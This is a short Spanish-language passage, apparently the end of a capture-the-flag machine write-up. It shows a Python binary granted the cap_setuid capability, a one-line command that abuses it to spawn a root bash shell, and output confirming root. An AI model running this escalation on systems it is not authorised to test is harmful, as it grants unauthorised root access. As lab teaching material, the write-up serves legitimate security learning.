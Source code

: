 ```
/opt/python3 cap_setuid=ep
```

Por lo que podremos hacer lo siguiente:

```shell
/opt/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

Info:

```
root@c103b3df70e5:/tmp# whoami
root
```

Y con esto seremos `root`, por lo que habremos terminado la maquina.
